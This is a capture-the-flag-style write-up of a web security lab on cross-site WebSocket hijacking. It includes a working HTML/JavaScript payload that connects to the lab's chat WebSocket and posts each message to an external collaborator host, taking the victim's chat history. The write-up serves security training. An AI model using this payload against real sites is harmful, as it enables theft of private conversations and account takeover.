



# Cross-site WebSocket hijacking
# Objective
This online shop has a live chat feature implemented using WebSockets.\
To solve the lab, use the exploit server to host an `HTML/JavaScript` payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. 

# Solution
## Analysis
On the website there is a live chat feature implemented using WebSockets.\
There is no CSRF protection in websocket handshake request.\
Every time user establishes websocket connection data from all previous interaction with chat is sent over websocket.

||
|:--:| 
| *WebSocket handshake* |

## Exploitation
Attacker can steal data send via websocket by using configuration below - user opens website, websocket connection is established automattically (no CSRF protectionns), every websocket responnse from server is sent to attacker domain.

Exploit server configuration:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>WS</title>
  </head>
  <body>
    <script>
      var ws = new WebSocket('wss://0a250050034f5c9680c526690020000f.web-security-academy.net/chat');
      ws.onopen = function() {
        ws.send("READY");
      };
      ws.onmessage = function(event) {
        fetch('https://<id>.oastify.com', {
          method: 'POST',
          mode: 'no-cors',
          body: event.data
        });
      };
    </script>
  </body>
</html>
```

||
|:--:| 
| *Exploit server conniguration* |
||
| *Cross-site webSocket hijacking* |
